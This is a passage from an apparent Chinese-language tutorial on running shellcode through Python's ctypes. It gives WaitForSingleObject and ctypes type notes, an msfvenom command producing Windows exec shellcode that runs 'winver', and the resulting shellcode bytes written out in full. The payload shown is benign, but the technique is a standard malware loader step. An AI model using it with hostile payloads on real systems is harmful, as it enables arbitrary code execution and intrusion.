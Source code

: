 ```
DWORD WaitForSingleObject(
HANDLE hHandle,
DWORD dwMilliseconds
);
1
2
hHandle 对象句柄
dwMilliseconds 定时时间间隔 指定为非零值表示一直等待直到 Handle 触发.
```

hHandle 为之前创建线程函数的引用.

## Other

```
from_buffer_copy 解码 shellcode
c_int C++ 的 int 类型
c_char C++ 的 char 类型
pointer C++ 的 指针
```

# Code

首先引入 ctypes 库.

```
import ctypes
```

**生成 shellcode**

这里执行 win 自带的命令 winver.

`msfvenom -p windows/exec CMD=winver -f c`

返回结果.

`unsigned char shellcode[]='xxxx'`

**整理 shellcode**

```
shellcode = b""
shellcode = shellcode  + b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
shellcode = shellcode  + b"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
shellcode = shellcode  + b"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
shellcode = shellcode  + b"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
shellcode = shellcode  + b"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
shellcode = shellcode  + b"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
shellcode = shellcode  + b"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
shellcode = shellcode  + b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
shellcode = shellcode  + b"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
shellcode = shellcode  + b"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x6a\x01\x8d\x85\xb9\x00"
shellcode = shellcode  + b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56"
shellcode = shellcode  + b"\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
shellcode = shellcode  + b"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x77\x69\x6e\x76"
shellcode = shellcode  + b"\x65\x72\x00"
```
